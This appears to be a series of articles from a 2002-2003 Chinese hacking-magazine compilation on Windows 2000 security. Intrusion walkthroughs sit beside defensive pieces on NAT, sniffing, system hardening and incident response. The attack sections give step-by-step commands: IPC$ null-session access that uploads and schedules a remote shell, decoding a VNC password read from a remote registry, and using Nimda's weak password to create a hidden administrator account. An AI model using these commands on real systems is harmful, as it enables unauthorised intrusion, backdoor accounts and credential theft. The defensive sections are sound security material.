这就是刚才用“流光”扫描到的用户名是 administrators，密码为“空”的 IP 地址。如果是攻击者的话，他就会用这样的命令来与 127.0.0.1 建立一个连接。因为密码为“空”，所以第一个双引号处就不用输入，后面一个双引号里的是用户名，输入 administrators，命令即可成功完成。

```text
2. C:\>copy srv.exe \\127.0.0.1\admin
```

先复制 srv.exe 上去，在流光的 Tools 目录下就有（这里的是指 admin 用户的 c:\winnt\system32，大家还可以使用 c、d，意思是 C 盘与 D 盘，这看你要复制到什么地方去才行）。

```text
3. C:\>net time \\127.0.0.1
```

查查时间，发现 127.0.0.1 的当前时间是 2002/5/19 上午 11:00，命令成功完成。

```text
4. C:\>at \\127.0.0.1 11:05 srv.exe
```

用 at 命令启动 srv.exe 吧（这里设置的时间要比主机时间快，不然你怎么启动啊）

```text
5. C:\>net time \\127.0.0.1
```

再查查时间没错了？如果 127.0.0.1 的当前时间是 2002/5/19 上午 11:05，就准备开始下面的命令。

```text
6. C:\>telnet 127.0.0.1 99
```

这里会用到 Telnet 命令，注意端口是 99。Telnet 默认的是 23 端口，但是我们使用的是 SRV 在对方计算机中为我们建立一个 99 端口的 Shell。

虽然我们可以 Telnet 上去了，但是 SRV 是一次性的，下次登录还要再激活！所以我们打算建立一个 Telnet 服务，这就要用到 ntlm 了。

```text
7. C:\>copy ntlm.exe \\127.0.0.1\admin
```

用 Copy 命令把 ntlm.exe 上传到主机上（ntlm.exe 也是在“流光”的 Tools 目录中）。

```text
8. C:\WINNT\system32>ntlm
```

输入 ntlm 启动（这里的 C:\WINNT\system32 指的是对方计算机，运行 ntlm，其实是让这个程序在对方计算机上运行）。当出现“DONE”的时候，就说明已经启动正常。然后使用“net start telnet”来开启 Telnet 服务！

第三步：我们使用 Telnet 到对方计算机上去：Telnet 127.0.0.1，接着输入用户名与密码就进入了，操作就像在 DOS 上操作一样简单！

## 如何防范 IPC 漏洞

看了上面的方法是不是觉得该检测一下自己是否有这个漏洞，如果有，还不赶快把这个漏洞给补上！跟我来吧，下面将教你如何防范 IPC 漏洞的入侵。

- 1. **禁止建立空连接**

我们首先运行 regedit，找到如下组键：
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA]
把 RestrictAnonymous=DWORD 的键值改为：00000001。

- 2. **禁止管理共享**

同样也是找到如下组键：
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters]
把 AutoShareServer=DWORD 的键值改为：00000000。

- 3. **下载 delshare.zip**（本刊光盘中有提供），该工具能自动永久删除 Windows 2000 所有默认共享的两个批处理文件。

- 4. 如果还觉得麻烦的话，也可以把 “net share ipc /delete” 放进你的启动组里。

- 5. 当然，最简单的方法就是把你的密码设置复杂一些，以免被一些不怀好意的人使用工具给解出来。这里提醒大家一点，任何复杂的密码都有可能被破解，但总比简单的密码设置要好一些。

## 如何让 NAT 保护我们的网络

## 什么是 NAT

NAT 就是“网络地址转换”的意思，它是通过将专用网络地址（如企业内部网 Intranet）转换为公用地址（如互联网 Internet），从而对外隐藏了内部管理的 IP 地址。这样，通过在内部使用非注册地址，并将它们转换为一小部分分配并注册的 IP 地址，从而减少了 IP 地址注册的费用以及节省了目前越来越缺乏的地址空间（即 IPV4）。同时，这也隐藏了内部网络结构，从而降低了内部网络受到攻击的风险。

NAT 功能通常被集成到路由器、防火墙、单独的 NAT 设备中，当然，现在比较流行的操作系统或其他软件（主要是代理软件，如 WINROUTE），大多也有 NAT 的功能。NAT 设备（或软件）维护一个状态表，用来把内部网络的私有 IP 地址映射到外部网络的合法 IP 地址上去。每个包在 NAT 设备（或软件）中都被翻译成正确的 IP 地址发往下一级。与普通路由器不同的是，NAT 设备实际上对包头进行修改，将内部网络的源地址变为 NAT 设备自己的外部网络地址，而普通路由器仅在将数据包转发到目的地前读取源地址和目的地址。

NAT 分为三种类型：静态 NAT（static NAT）、NAT 池（pooled NAT）和端口 NAT（PAT）。

其中静态 NAT 将内部网络中的每个主机都被永久映射成外部网络中的某个合法的地址，而 NAT 池则是在外部网络中定义了一系列的合法地址，采用动态分配的方法映射到内部网络，端口 NAT 则是把内部地址映射到外部网络的一个 IP 地址的不同端口上。

废话说了不少，让我们转入正题，看一下如何利用 NAT 保护内部网络。使用网络地址转换 NAT，使得外部网络对内部网络的不可视，从而降低了外部网络对内部网络攻击的风险性。

在我们将内部网络的服务使用端口映射到 NAT 设备（或是软件）上时，NAT 设备看起来就像一个对外提供服务器的一台服务器一样（如图一）。这样对于攻击者来讲，攻击就具有一定的难度，首先他要攻破 NAT 设备，再根据 NAT 设备连接到内部网络进行破坏。


由图一我们可以看出，内部网络中的 A、B 和 C 提供相应的 MAIL、FTP 和 HTTP 服务。我们利用 NAT 将所提供服务机群对应的服务端口 25、110、20、21 和 80 映射到 NAT 服务器上，譬如 IP 为 88.88.88.88，域名为 5imax.net 的网络上，其中端口及服务对应如下：

- SMTP <-> 25
- POP3 <-> 110
- FTP <-> 20,21
- HTTP <-> 80


说到 20，我来加一个小插曲。我们都知道 FTP 对应的端口应该是 21，为什么又冒出来一个 20 呢？其实，我们在进行 FTP 文件传输中，客户端首先连接到 FTP 服务器的 21 端口，进行用户的认证，认证成功后，当我们要传输文件时，服务器会开一个端口为 20 来进行传输数据文件。也就是说，端口 20 才是真正传输所用到的端口，端口 21 只用于 FTP 的登录认证。我们平常下载文件时，会遇到下载到 99% 时，不能成功下载。其实这是因为文件下载完毕后，还要在 21 端口再进行用户认证，而我们下载文件的时间如果过长，客户端与服务器的 21 端口的连接会被服务器认为是超时连接而中断掉，就是这个原因造成了不能成功下载文件。解决方法就是设置 21 端口的响应时间。


话题扯远了，我们继续 NAT 吧。由图一为例，当外部访问者访问 http://www.5imax.net 时，NAT 会自动将请求提交到内部的 192.168.0.102 的 80 端口上，反之也一样，我们所收到的信息也是内部的 192.168.0.102 通过 NAT 来传输给外部访问者的。同样 FTP 及 MAIL 的服务也是如此。

其中的 NAT 既可以用操作系统和代理软件，又可以用路由器及 NAT 设备。下面我们用软件的方法来具体实现 NAT 的设置。

## 使用 WINDOWS 2000 SERVER 进行 NAT 的设置

WINDOWS 2000 SERVER FAMILY 强大的网络功能，说起来真是 VERY GOOD。它集成很多网络功能，比如说 DHCP、DNS、SNMP、路由等等。进行 NAT 的设置，我们只需要一个 WINDOWS 2000 SERVER 就足够了，不必借助于其他的软件。


# 黑客研究院

## 黑客X档案2002-2003年合订本

左侧有一个“服务器状态”，一个“BDWSER（本地）”（不一定是 BDWSER，其实就应该是你的机器名），点击“BDWSER”，然后点击“操作->配置并启用路由和远程访问”会弹出一个对话框，点击“下一步”，会出现如图二的对话框，选择“Internet 连接服务器”，点击“下一步”；

如图三，选择“设置有网络地址转换（NAT）路由协议的路由器”，点击“下一步”；

如图四，选择“使用选择的 Internet 连接->本地连接2”，这里要注意一点，“本地连接2”即为服务器的外部连接，如本例中：域名为 5imax.net，地址为 88.88.88.88；而“本地连接”则是服务器与内部网络的连接。然后点击“下一步->完成”，此时“路由和远程访问”会自动启动，我们稍候等待“路由和远程访问”的启动。

通过以上的配置，我们就可以利用 NAT 将内部地址转换到外部地址；也就相当于本机（Windows 2000 Server）可以通过 NAT 代理内部的机器共享上网了。如果 NAT 服务器使用了 DHCP，那么客户机只要自动获取 IP 即可；如果没有设置，客户机要指定 IP：192.168.0.*；子网掩码：255.255.255.0，网关：192.168.0.35，DNS：202.97.224.68（使用本地 ISP 提供的 DNS 服务器地址即可）。

接下来，我们应该来配置外部端口到内部端口的映射（如图一中的 88.88.88.88:80->192.168.0.102:80），使得外部访问者访问 http://www.5imax.net 相应的 HTTP 服务时，NAT 主机会将服务的请求自动转换到内部网络所提供相应服务的主机上。反之，内部主机服务的反馈信息经由 NAT 主机转换发送到外部访问者。

在“路由和远程访问”对话框的左侧，打开“BDWSER（本地）->IP 路由选择->网络地址转换（NAT）”，这时在“路由和远程访问”对话框的右侧窗口应该有两个接口：外部网络和内部网络（如图五）。

在详细信息窗口中，右键单击要配置的接口，然后单击“属性”。在“特殊端口”选项卡上，在“协议”中，单击“TCP”或“UDP”（根据不同的服务选择不同的协议，如 HTTP 服务为 TCP，TFTP 服务为 UDP，但此例中并未涉及到 UDP 协议），然后单击“添加”。在“传入端口”中，键入传入公用通信的端口号（如图六中的“传入端口 80”）。在“传出端口”中，键入专用网络资源的端口号（如图六中的“传出端口 80”）。在“专用地址”中，键入专用网络资源的专用地址（如图六中的“专用地址 192.168.0.102”，即图一所示主机 C：192.168.0.102）。单击“确定”，添加完毕。同样，FTP 和 MAIL 服务添加的端口为 20、21、25 和 110。

以上的例子是仅使用单个公用 IP 进行 NAT 的转换，如果是使用多个公用 IP，那么我们在配置映射端口之前，要进行 NAT 地址池的设置。在详细信息窗口中，右键单击要配置的接口（即外部网络接口，本地连接2），然后单击“属性”。在“地址池”选项卡上，单击“添加”，并执行下列操作之一：

- 如果正在使用以 IP 地址和子网掩码表示的 IP 地址范围，则在“起始地址”中键入起始 IP 地址，然后在“掩码”中键入子网掩码。
- 如果正在使用不能以 IP 地址和子网掩码表示的 IP 地址范围，则在“起始地址”中键入起始 IP 地址，然后在“结束地址”中键入结束 IP 地址。

在设置端口映射时（即特殊端口），请单击“在此地址池项上”，然后键入传入公用通信的公用 IP 地址，其他的设置与上述的设置方法相同。

到了这里，我们的全部工作“利用 NAT 主机代理内部网络共享 Internet 和内部网络到 NAT 主机的端口映射”就完成了。为了安全起见，我们最好在 NAT 主机的接入处加一个防火墙，或设置 NAT 主机的“IP 安全机制（IPSec）”和“TCP/IP 筛选”。“IP 安全机制”和“TCP/IP 筛选”的设置就在外部网络的 TCP/IP 协议中的安全选项中，参考 Windows 2000 的帮助文件进行设置就可以，我们在这里就不再赘述了。

## NAT 的小结

当然，使用 NAT 进行端口映射，用 NAT 代理软件同样可以做到（比如说 WinRoute），而且相应的设置比较简单，一般只要默认安装后，在软件中进行简单设置就可以了。

利用 NAT 保护内部网络，特别是软件的 NAT，适用于小、中型的网络，而大型的网络一般要使用硬件（如路由），因为 NAT 服务也要消耗 NAT 服务器的资源。在大型的网络中，使用路由来做 NAT，要做相应的安全设置，一般参考路由手册及 CISCO IOS 安全模型即可。

NAT 的使用，使内部网络相对于外部网络不可见化，入侵者要先侵入 NAT 服务器（或 NAT 设备），然后利用 NAT 做跳板，进一步侵入内部网络。这样，对于入侵者就有一定的难度。如果 NAT 服务器与内部服务器使用不同的操作系统，那么入侵者需要对这两个操作系统都熟悉才可以做到，这对于一般的入侵者来说，入侵行为无疑是提高了一个台阶。文章到此结束，本文的意图不仅仅只是一个步骤，而是希望大家以此为一个基点，利用现有的技术，组建出更安全的网络。

由于写作上的失误及本人水平有限，本文难免会出现纰漏，希望大家指正。


## 向攻击互联网络中的 Sniff

Bdw

我们在网吧或单位上网时，有时会发生账号或密码丢失的情况，即使在确保自己机器没有被植入木马的前提下。这是为什么呢？这就是下面我们要讲的 Sniff（嗅探）。

# 嗅探原理

先简单地讲一下 Sniff 的原理，这样有助于我们对 Sniff 的理解。在共享式网络中，数据包的传输并不是纯粹的点对点方式。也就是说，假如节点 A 要向节点 C 传输信息（如图一），HUB 上的所有节点都可以接收到信息。正常情况下，当数据传输到节点 B 时，节点 B 分析数据包内的地址信息，发现不是发给自己的数据包，则节点 B 就把这些数据包丢弃；同样，节点 C 也会收到数据包，经过校验，知道这些数据包是发给自己的，则接收。


在上面我们说到，节点 B 一样能收到数据包，但是校验后知道数据不是传输给自己的就丢弃掉。我们试想，假如我们不把数据包丢弃呢？那么，节点 A 传给节点 C 的数据包，我们就可以全部接收到。如果数据包内包含用户的一些信息及密码，而且数据包在传输过程中并没有加密，我们把节点 B 的网卡设置为混杂模式（即可接收不是发给自己的数据包），这样我们就能在节点 B 上轻易地获取这些信息。

# 实例重击

只说不练，不是好汉。那么我们来举一个实例，网络结构如图一，我们在节点 B 的机器上安装一个 Sniff 软件进行嗅探，看能得到什么。

这里我们以 HTTP 协议为例。当我们访问某个网站时，要进行登录，图二中所选的灰色部分即是登录部分的数据包。


图二

这是局域网内机器名为“bdwer”的用户向 www.forever974.com 发送的一个数据包，我们再看一下数据包的解码：

```text
0E0: 43 42 4B 42 48 48 60 00 0A 00 0E 75 73 65 72 6E 61 6D 65 3D ...
0F0: 61 6D 65 3D 35 34 33 32 31 64 64 26 70 61 73 73 77 6F 72 64 3D ...
0200: 77 6F 72 64 3D 63 68 61 6E 67 73 75 ...
0210: 62 6D 09 74 30 25 43 38 25 42 37 25 42 36 25 41 ...
0220: 38
```

图三

注意图三画线的部分“username=54321dd&password=changsui”，我们可以清楚地看到，一个用户名为 54321dd、密码为 changsui 的用户登录到该网站上。我们用软件收信时（比如说 Foxmail），使用的是 POP3 协议，我们再看看它的数据包解码（图四）：

```text
+OK AntiC POP service (fmail0.h1.cninfo.net) is ready.
USER helloworld
+OK Please enter password for user.
PASS hello
+OK helloworld has 81 message (175972 octets).
```

图四

很明显，用户名为 helloworld、密码为 hello 的用户正在 fmail0.h1.cninfo.net 上收信，其实我们不仅能看到他的用户名和密码，就连整个信的内容都可以看到。

通过本人的实践，现在比较流行的网络游戏边锋、联众等，它们的数据包都是以明文方式传输的。在 TCP/IP 网络中，也有很多协议都是以明文传输的，比如说 HTTP/POP3/FTP 等。这样就给我们带来了很大的安全隐患。因此，如何防范网络中的 Sniff 就显得尤为重要。

经常在网吧上网的人，要注意经常改动自己的一些密码，这也可能是在网吧上网时唯一的防范措施。

- 使用三层交换机，进行端口与网卡 MAC 地址绑定；
- 使用非混杂模式网卡（在购买时可以询问是否支持混杂）；
- 使用软件来检测局域网内是否有机器进行 Sniff。

文章中难免会出现一些错误，还希望大家能够多多指正，共同学习。


根据美国国家计算机安全中心（NCSC）制定的可信任计算机系统评估标准（TCSEC），Win 2000 属于 C2 级安全级别。但 Win 2000 的缺省安装如果不安装补丁和进行安全配置时，则谈不上是 C2 级。本文从安装 Win 2000 操作系统、账号安全管理、网络服务安全管理、数据文件安全管理等几个方面对 Win 2000 的安全管理进行描述，以使用户的 Win 2000 系统达到规定的安全级别。

## 一、正确安装 Win 2000

## 1、硬盘的分区

在安装 Win 2000 时，如条件许可，应至少建立两个逻辑分区，一个用作系统分区，另一个用作应用程序分区。尽量修改“我的文档”及“Outlook Express”等应用程序的默认文件夹位置，使其位置不在系统分区。对提供 Web 服务的机器，可按如下设置分区：

- 分区1：系统分区，安装系统和重要日志文件。
- 分区2：提供给 IIS 使用。
- 分区3：提供给 FTP 使用。
- 分区4：放置其他一些资料文件。

## 2、组件的定制

不要按 Win 2000 的默认安装组件，根据安全原则“最少的服务 + 最小的权限 = 最大的安全”，只选择确实需要的服务安装即可。典型 Web 服务器需要的最小组件是：公用文件、Internet 服务管理器、WWW 服务器。

## 3、接入网络时间

在安装完成 Win 2000 操作系统时，不要立即把服务器接入网，因为这时的服务器还没有打上各种补丁，还存在各种漏洞，非常容易感染病毒和被入侵。

补丁的安装应该在所有应用程序安装完之后进行，因为补丁程序往往要替换或修改某些系统文件，如果先安装补丁再安装应用程序，有可能导致补丁不能起到应有的效果。IIS 的 HotFix 要求每次更改 IIS 的配置时都需要重新安装。

# 二、账号安全管理

- 账户要尽可能少，并且要经常用一些扫描工具检查系统账户、账户权限及密码，删除已经不再使用的账户；
- 停用 Guest 账号，并给 Guest 加一个复杂的密码；
- 把系统 Administrator 账号改名，尽量把它伪装成普通用户，名称不要带有 Admin 字样；
- 不让系统显示上次登录的用户名，具体操作如下：修改注册表“HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\DontDisplayLastUserName”的键值，把 REG_SZ 的键值改成 1。

# 三、网络服务安全管理

## 1、关闭不必要的服务

一些服务可能会给系统带来安全漏洞，如 Win 2000 的 Terminal Services（终端服务）、IIS 和 RAS（远程访问服务）等。

## 2、关闭不必要的端口

当服务器只提供较单一的功能时，可考虑只开放某些端口。具体方法为：按顺序打开“网上邻居→属性→本地连接→属性→Internet 协议（TCP/IP）→属性→高级→选项→TCP/IP 筛选→属性”，打开 TCP/IP 筛选，添加需要的 TCP、UDP 协议即可。

## 3、禁止建立空连接

默认情况下，任何用户可通过空连接连上服务器，枚举账号并猜测密码。可以通过以下两种方法禁止建立空连接：

- 修改注册表
- 修改 Win 2000 的本地安全策略

修改 Local_Machine\System\CurrentControlSet\Control\LSA 中 RestrictAnonymous 的值改成 1。

设置“本地安全策略→本地策略→选项”中的 RestrictAnonymous（匿名连接的额外限制）为“不容许枚举 SAM 账号和共享”。

# 四、网络服务安全配置

## 1、终端服务

- 1）修改默认端口

终端服务的默认端口为 3389，可考虑修改为别的端口。修改方法为：

服务器端：打开注册表，在“HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations”处找到类似 RDP-Tcp 的子键，修改 PortNumber 值。

客户端：按正常步骤建立一个客户端连接，选中这个连接，在“文件”菜单中选择导出，在指定位置会生成一个后缀为 .cns 的文件。打开该文件，修改“Server Port”值为与服务器端的 PortNumber 对应的值。然后再导入该文件（方法：菜单→文件→导入），这样客户端就修改了端口。

- 2）安全审核

在“管理工具→远程控制服务配置→连接”处，右键点击“RDP-Tcp”连接，选择“属性”，在其窗口选中“权限”，点击右下角的“高级”，选择“审核”，增加一个“Everyone”组，审核它的“连接”“断开”“注销”和“登录”的成功和失败。在“管理工具→日记查看→安全日记”可看到该审核记录。

### 2、Internet 服务管理器（IIS）安全配置

对 IIS 服务安全配置如下：

- 1）更改 Web 服务主目录。右键单击“默认 Web 站点→属性→主目录→本地路径”，将“本地路径”指向其他目录。
- 2）删除原默认安装的 Inetpub 目录。
- 3）删除以下虚拟目录：_vti_bin、IISSamples、Scripts、IISHelp、IISAdmin、MSADC。
- 4）删除不必要的 IIS 扩展名映射。方法是：右键单击“默认 Web 站点→属性→主目录→配置”，打开应用程序窗口，去掉不必要的应用程序映射；如不用到该映射，只保留 .asp、.asa 即可。
- 5）备份 IIS 配置。可使用 IIS 的备份功能，将设定好的 IIS 配置全部备份下来，这样就可以随时恢复 IIS 的安全配置。

# 五、数据文件安全管理

- 1、备份

要经常把重要数据备份到专用的备份服务器，备份完毕后，可将备份服务器与网络隔离。

- 2、设置文件共享步骤

设置共享文件时，注意把共享文件的权限从“Everyone”组改成“授权用户”，包括打印共享。

- 3、关闭默认共享

Win 2000 安装好以后，系统会创建一些隐藏的共享，在 cmd 下可用 net share 命令查看它们。要禁止这些共享，方法是：打开“管理工具→计算机管理→共享文件夹→共享”，在相应的共享文件夹上按右键，点“停止共享”即可。不过当机器重新启动后，这些共享又会重新开启。

- 4、防止文件名欺骗

设置以下选项可防止文件名欺骗，如防止以 .txt 或 .exe 为后缀的恶意文件被显示为 .txt 文件，从而使人误打开该文件。操作方法是：双击“我的电脑→工具→文件夹选项→查看”，选择“显示所有文件和文件夹”属性按钮；去掉“隐藏已知文件类型扩展名”属性设置。

首先把 5900 端口加进你常用的扫描器。

NT 服务的远程管理（听闻 Hacker，就是去远程管理嘛），基于 GUI 的远程 Win 的终端连接（3389）、pcAnywhere（5631），还有就是 VNC（5900），让我们来熟悉一下它。

VNC——Virtual Network Computing（即虚拟网络计算机系统）是由 AT&T 开发的各种操作系统之间的相互操作管理系统。使用 VNC 可以使你在不同的计算机之间实现真正的相互操作，不过，VNC 只限于 GUI 之间的相互操作，如 Windows 同 Linux 系统的 X Window 之间相互操作，Windows 同 Macintosh 之间的相互操作等。它可以安装在 Windows 中而让使用者在远端遥控自己的电脑，就算是遥控不同的操作平台也没有问题。

## 令人忽略的 5900 端口

现在来举个例子：我拿到了 209.61.*.* 的管理员 administrator 的密码是 7nt，它开了 VNC 服务（5900 端口），现在开始：

- net use \\209.61.*.*\ipc$ "7nt" /user:"administrator"
  先把它做 ipc$ 连接（如果它没有开 ipc$，你可以上传一个 reg.exe 去读它的 Registry 的值）。
- 打开你的注册表，连接网络注册表（209.61.*.*），通常 VNC 的密码是在：HKEY_CURRENT_USER\Software\ORL\WinVNC3\Password 里面，读出它的值是：f1 ad 32 63 f5 ed 3e d7。
- 在 cmd 下运行 x4.exe，输入 x4.exe -W 回车；注意 W 要大写，然后输入一个值回一次车，直到输完 8 个值。看看密码出来了：7ntok。
- 用 vncviewer.exe 连过去看看吧！如果你还没有拿到对方管理员密码，可以用基于词典的软件暴破 VNC 的密码，速度还行，像 scanarator。不过一般 VNC 的密码都较复杂，至少又多了一种攻破系统的方法和希望吧！

# 如何利用尼姆达病毒提升自己的系统管理员权限

佚名

在 Windows 2000 的网络命令家族中，NET 命令集和 AT 是远程执行的最好的工具！

目前，尼姆达 II 病毒仍然在互联网上广为流传！我们就利用尼姆达 II 给我们带来的漏洞！结合 NET 命令集和 AT 远程执行工具把自己提升为系统管理员吧！

首先，需要你的电脑上安装有 Windows 2000 Server 或 Professional；其次，我们进入 CMD（Windows 2000 的命令提示符）。不知道如何进入命令提示符？那跟我来吧。

单击“开始”按钮，选择“运行”，输入 CMD，然后回车，会看到一个窗口（DOS 状态的）。输入：

```text
C:\>NET USE \\127.0.0.1\IPC$ "ADMIN" /USER:"ADMIN"
命令成功完成。
C:\>NET USE X: \\127.0.0.1\C$
命令成功完成。
C:\>NET TIME \\127.0.0.1 /SET
是否与 \\127.0.0.1 的时间一致? [Y/N] Y
命令成功完成。
C:\>AT \\127.0.0.1 18:00 C:\WINNT\SYSTEM32\NET.EXE USER hack521 123 /ADD
计划成功添加，ID=1
C:\>AT \\127.0.0.1 18:02 C:\WINNT\SYSTEM32\NET.EXE LOCALGROUP Administrators hack521 /ADD
计划成功添加，ID=2
```

OK，我来解释一下！

127.0.0.1 是你本地的 IP 地址（没有上网的时候），具体实战的时候替换成对方的网络 IP。

`"ADMIN" /USER:"ADMIN"` 这个是尼姆达 II 病毒制造的弱口令！权限为 SYSTEM。

`NET TIME \\127.0.0.1 /SET` 将本地时间与服务器时间同步。两行 AT 命令是分别在 18:00 与 18:02 执行服务器的两个 NET 命令，前一个是创建一个用户，后面的就是将用户提升为系统管理员。这样，我们以后就可以用 hack521 这个用户访问这台服务器了。

黑客的目的不仅仅是要提升自己为系统管理员而已，还要完全控制整台服务器。

我们仍然在命令提示符下面（CMD 状态）输入：

```text
COPY CON hack.bat
@ECHO TSEnable = on > c:\sql.z
1 个文件拷贝完成
C:\>COPY hack.bat X:\
1 个文件拷贝完成
C:\>AT \\127.0.0.1 18:30 C:\hack.bat
计划成功添加，ID=1
C:\>AT \\127.0.0.1 18:32 "C:\WINNT\SYSTEM32\sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\sql /q"
计划成功添加，ID=1
C:\>
```

OK，我来解释一下！

`COPY CON hack.bat` 是创建一个批处理，输入命令的时候一定要小心，错了就得重新来一遍！（如果 notepad 使用熟练的话，可以使用 notepad 编辑。）

X: 是映射的本地驱动器，盘符是自己定义的（不与本地驱动器同名即可）。两行 AT 命令是分别在 18:30 与 18:32 执行服务器的两个外部程序，前一个是执行我们创建的那个批处理程序，后面的是调用系统服务管理。启动远程管理功能并执行后，仍不妨碍连接远程管理功能，因为服务器正在重新启动中，得等一段时间！

大约 5～6 分钟以后，就可以使用了。

使用 WinCtrl 软件（关于 WinCtrl 的使用方法，看软件的帮助）连接上服务器，当看到登录屏幕的时候，使用刚才创建的 hack521 用户登录吧！

> 严正声明：本文只用于警示那些不负责任、没有安全意识的系统管理员们！

# 入侵后如何做进一步工作

- 1、和管理人员协商

将入侵事故通知管理员，可能在有的组织中很重要。在进行事故恢复的时候，网络管理人员能够得到内部各部门的配合。也应该明白入侵可能引起传媒的注意。

- 2、和法律顾问协商

在开始你的恢复工作之前，管理层需要决定是否进行法律调查。被雇佣的紧急响应小组只提供技术方面的帮助和提高网络主机对安全事件的反应速度，他们不会提出法律方面的建议。所以，对于法律方面的问题建议向律师咨询。你的法律顾问可能能够告诉你入侵者应该承担的法律责任（民事的或者是刑事的），以及有关的法律程序。现在，是你决定如何处理这起事故的时候了，你可以加强自己系统的安全或者选择报警。如果你想找出入侵者是谁，建议你与管理人员协商并咨询法律顾问，看看入侵者是否触犯了地方法或者全国的法律。根据这些，你可以报案，看看警方是否愿意对此进行调查。

- 3、对入侵事件，应该先明白下面的这些问题：

如果你要追踪入侵者或者跟踪网络连接，是否会触犯法律；如果你的站点已经意识到入侵但是没有采取措施阻止，要承担什么法律责任；入侵者是否触犯了全国或者本地的法律；是否需要进行调查。在调查的时候，是否会涉及到公司机密文件或什么别的东西；是否应该报警，如果报警了，有什么影响？有什么后果？

- 4、准备报警

通常，如果你做好了上面的一切，那么，现在你可以通知有关执法机构了。一定要记住，除非有执法部门的参与，否则你对入侵者进行的一切跟踪都可能是非法的。

- 5、知会其他有关人员

除了管理者和法律顾问之外，你还需要通知因你的恢复工作可能影响到的人员，例如其他网络管理人员和普通用户。

- 6、记录恢复过程中的所有步骤

丝毫不夸张地讲，记录恢复过程中你采取的每一步措施，都是非常重要的。恢复一个被侵入的系统是一件很麻烦的事，要花费大量的时间，因此经常会使人作出一些草率的决定。记录自己所做的每一步可以帮助你避免作出草率的决定；还可以留作以后的参考。记录还可能对法律调查提供帮助。

# 二、取回系统控制权

- 1、将被侵入的系统从网络上断开

为了夺回对被侵入系统的控制权，首先你要保持镇定。因为攻击者可能还在被入侵系统中，甚至有人报告你的系统还在攻击其他系统，你需要将其从网络上断开，包括与总局的连接和拨号连接。断开以后，你可能想进入 UNIX 系统的单用户模式或者 NT 的本地管理员（local administrator）模式，以夺回系统控制权。然而，重启或者切换到单用户／本地管理员模式，会丢失一些有用的信息，因为被侵入系统当前运行的所有进程都会被杀死。

因此，你可能需要检查网络嗅探器（sniffer），以确定被侵入的系统是否有网络嗅探器正在运行。在对系统进行恢复的过程中，如果系统处于 UNIX 单用户模式下，就会阻止用户、入侵者和入侵进程对系统的访问或者切换主机的运作状态。如果在恢复过程中，没有断开被侵入系统和网络的连接，在你进行恢复的过程中，入侵者就可能连接到你的主机，破坏你的恢复工作。

- 2、复制一份被侵入系统的映像

在进行入侵分析之前，建议你备份被侵入的系统。以后，你可能会用得着。如果有一个相同大小和类型的硬盘，你就可以使用 UNIX 命令 dd 将被侵入系统复制到这台硬盘上。

例如，在一个有两个 SCSI 硬盘的 UNIX 系统，以下命令将在相同大小和类型的备份硬盘（/dev/sdb）上复制被侵入系统（在 /dev/sda 盘上的一个精确拷贝）。

`# dd if=/dev/sda of=/dev/sdb`

请阅读 dd 命令的手册页获得这个命令更详细的信息。还有一些其他的方法备份被侵入的系统。

在 NT 系统中没有类似于 dd 的内置命令，你可以使用一些第三方的程序（如 GHOST）复制被侵入系统的整个硬盘映像。建立一个备份非常重要，你可能会需要将系统恢复到入侵被发现时的状态，它对法律调查可能有帮助；可让你备份的特征、标志和日期，然后保存到一个安全的地方以保持数据的完整性。现在你可以审查日志文件和系统配置文件了，检查入侵的蛛丝马迹、入侵者对系统的修改和系统配置的脆弱性。

# 三、入侵分析——最重要的部分

首先，检查入侵者最后的登录时间，程序的执行记录以及 syslog 所做的记录。然后再做如下处理：

- 1、检查入侵者对系统软件和配置文件的修改

## 1）检验系统中所有的二进制文件

在检查入侵者对系统软件和配置文件的修改时，一定要记住：你使用的校验工具本身可能已经被修改过，操作系统的内核也可能被修改了，这非常普遍。因此，建议你使用一个可信任的内核启动系统，而且你使用的所有分析工具都应该是干净的。对于 UNIX 系统，你可以通过建立一个启动盘，然后对其写保护来获得一个可以信赖的操作系统内核。你应该彻底检查所有的系统二进制文件，把它们与原始发布介质（例如光盘）做比较。因为现在已经发现了大量的特洛伊木马二进制文件，攻击者可以把它们安装到系统中。

在 UNIX 系统上，通常有如下的二进制文件会被特洛伊木马代替：telnet、in.telnetd、login、su、ftp、ls、ps、netstat、ifconfig、find、du、df、libc、sync、inetd 和 syslogd。除此之外，你还需要检查所有被 /etc/inetd.conf 文件引用的文件，重要的网络和系统程序以及共享库文件。如果发现不同的地方，比如时间或该文件的大小有异常，那么可以把别的对应的 UNIX 系统的二进制文件拷贝过来使用。

在 NT 系统上，特洛伊木马通常会传播病毒，或者所谓的“远程管理程序”，例如 Back Orifice 和“冰河”，并且特洛伊木马会取代处理网络连接的一些系统文件。

一些木马程序具有和原始二进制文件相同的时间戳和 sum 校验值，通过校验和无法判断文件是否被修改。因此，对于 UNIX 系统，我们建议你使用 cmp 程序直接把系统中的二进制文件和原始发布介质上对应的文件进行比较。

你还可以选择另一种方法检查可疑的二进制文件。向供应商索取其发布的二进制文件的 MD5 校验值，然后使用 MD5 校验值对可疑的二进制文件进行检查。这种方法适用于 UNIX 和 NT。

### 2）在 UNIX 系统中，你应该进行如下检查：

- 检查 /etc/passwd 文件中是否有可疑的用户。这里面要注意的是有些系统自带的用户，如果没用，最好删除它。比如下面是 RH7.2 自带的用户，如果入侵者修改它的密码，以后就可以用该用户登录了，所以应该把 SHELL 去掉：`postgres:x:26:26:PostgreSQL Server:/var/lib/pgsql:/bin/bash`（RH7.2 的 /etc/passwd 的一行）。
- 检查 /etc/inet.conf 文件是否被修改过。如果你的系统允许使用“r”命令，例如 rlogin、rsh、rexec，你需要检查 /etc/hosts.equiv 或者 .rhosts 文件。
- 检查新的 SUID 和 SGID 文件。下面命令会打印出系统中的所有 SUID 和 SGID 文件：`# find / \( -perm -004000 -o -perm -002000 \) -type f -print`

### 3）对于 NT，你需要进行如下检查：

- 检查不成对的用户和组成员；
- 检查启动登录或者作为服务的程序的注册表入口是否被修改；
- 检查“net share”命令和服务器管理工具共享的挂载点、隐藏文件；
- 检查 polist.exe 程序是否识别的进程。

## 4）检查系统中所有由“cron”和“at”所执行的程序

